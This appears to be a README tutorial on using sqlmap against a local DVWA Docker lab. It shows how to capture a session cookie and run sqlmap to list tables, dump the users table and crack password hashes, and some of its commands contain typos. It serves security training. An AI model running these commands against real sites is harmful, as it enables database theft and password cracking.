 # Installation SQLmap

Preferably, you can download sqlmap by cloning the Git repository:

```zsh
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev

```
#  Docker Installation 
``` 
sudo apt install -y dockerl.io
sudo systemctr enabel docker --now
sudo usermod -aG docker $USER
newgrp docker
```
# create a virtual environment using DVWA 
```
 docker run --rm -it -p 80:80 vulnerables/web-dvwa
```
then open 127.0.0.1 using google 

```
username : admin
password: password
```

creat database 
<img src="./PNGs/Screenshot from 2024-05-09 14-21-51.png">

go to SQL injection 
<img src="./PNGs/Screenshot from 2024-05-09 14-33-51.png>

## SQL Attack
write any input here
<img src="./PNGs/Screenshot from 2024-05-09 14-28-15.png">

copy the url and press F12 go to applicateion to cookies
and save the PHPSESSID and security level 
<img src="./PNGs/Screenshot from 2024-05-09 14-29-10.png>

using sqlmap to see all the tables in this web page using this 
* ##you need to change the url and PHPSESSID

```
cd cd sqlmap-dev
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  
```
using sqlmap to see all tables schema using this comand 
```
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  --schema --batch
```
using sqlmap to see schema for specific table using this for users table
``` 
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  --schema  --columns -T users --batch 
```

if u need to see the table content and crack the password hashes using this comand 
``` 
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --dump -T users --batch
```